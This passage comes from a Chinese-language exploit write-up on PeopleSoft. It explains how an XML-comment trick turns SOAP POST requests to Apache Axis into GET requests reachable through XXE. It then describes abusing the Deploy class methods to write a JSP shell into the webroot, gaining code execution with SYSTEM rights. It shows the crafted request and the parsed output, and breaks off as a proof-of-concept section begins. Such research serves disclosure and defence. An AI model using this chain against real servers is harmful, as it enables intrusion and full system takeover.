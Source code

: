 此时我们得到的结果如下：

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
    &lt;soapenv:Body&gt;
        &lt;myMethod attr="x"&gt;&lt;test&gt;y&lt;/test&gt;&lt;/myMethod&gt;
        &lt;/myMethod attr="x"&gt;&lt;test&gt;y&lt;/test&gt;&lt;/myMethod&gt;
    &lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

此时，我们的Payload将会出现两次，第一次的前缀为“&lt;”，第二次为“&lt;/”。最终的解决方案需要用到XML注释：

```
GET /pspc/services/SomeService
?method=!--&gt;&lt;myMethod+attr="x"&gt;&lt;test&gt;y&lt;/test&gt;&lt;/myMethod
```

此时我们得到的结果如下：

```
&lt;?xml version="1.0" encoding="utf-8"?&gt;
&lt;soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"&gt;
    &lt;soapenv:Body&gt;
        &lt;!--&gt;&lt;myMethod attr="x"&gt;&lt;test&gt;y&lt;/test&gt;&lt;/myMethod&gt;
        &lt;/!--&gt;&lt;myMethod attr="x"&gt;&lt;test&gt;y&lt;/test&gt;&lt;/myMethod&gt;
    &lt;/soapenv:Body&gt;
&lt;/soapenv:Envelope&gt;
```

由于我们添加了前缀“!–&gt;”，所以第一个Payload是以“&lt;!–”开头的，这也是XML注释的起始标记。第二行以“&lt;/!”开头，后面跟着的是“–&gt;”，它表示注释结束。因此，这也就意味着我们的第一行Payload将会被忽略，而我们的Payload现在只会被解析一次。

这样一来，我们就可以将任意的SOAP请求从POST转变为GET了，这也就意味着我们可以将任何的类当作Axis服务进行部署，并利用XXE漏洞绕过服务的IP检测。

<br>

**Axis：小工具（Gadgets）**

Apache Axis在部署服务的过程中不允许我们上传自己的Java类，因此我们只能使用服务提供给我们的类。在对PeopleSoft的pspc.war（包含Axis实例）进行了分析之后，我们发现org.apache.pluto.portalImpl包中的Deploy类包含很多非常有趣的方法。首先，addToEntityReg(String[] args)方法允许我们在一个XML文件的结尾处添加任意数据。其次，copy(file1, file2)方法还允许我们随意拷贝任意文件。这样一来，我们就可以向我们的XML注入一个JSP Payload，然后将它拷贝到webroot中，这样就足以够我们拿到Shell了。

正如我们所期待的那样，PeopleSoft以SYSTEM权限运行了，而这将允许攻击者通过一个XXE漏洞触发PeopleSoft中的远程代码执行漏洞，并通过SYSTEM权限运行任意代码。

**<br>**

**漏洞利用 PoC**

这种漏洞利用方法几乎适用于目前任意版本的PeopleSoft，在使用之前，请确保修改了相应的XXE终端节点：

